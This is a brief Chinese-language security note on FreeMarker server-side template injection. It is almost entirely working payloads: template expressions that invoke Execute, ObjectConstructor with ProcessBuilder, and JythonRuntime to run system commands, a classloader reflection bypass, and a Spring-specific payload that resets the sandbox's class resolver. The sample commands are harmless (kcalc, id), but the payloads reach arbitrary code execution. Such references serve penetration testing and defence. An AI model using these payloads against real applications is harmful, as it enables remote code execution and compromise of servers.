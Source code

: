 ```yaml
---
title: "FreeMarker SSTI"
author: ["4shen0ne"]
tags: ["java"]
draft: false
---
```


最简单的 poc

```text
<#assign test="freemarker.template.utility.Execute"?new()> ${test("kcalc")}
```

poc1:

```text
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","kcalc").start()}
```

poc2:

```text
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("kcalc")
```

绕过 class.getClassloader 反射加载 Execute 类

```java
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

如果 Spring Beans 可用，可以直接禁用沙箱，这个 payload 需要应用使用
freemarker+spring 并设置 `setExposeSpringMacroHelpers(true)` 或者
application.propertices 中设置 `spring.freemarker.expose-spring-macro-helpers=true`

```java
<#assign ac=springMacroRequestContext.webApplicationContext>
<#assign fc=ac.getBean('freeMarkerConfiguration')>
<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>
<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>${"freemarker.template.utility.Execute"?new()("id")}
```
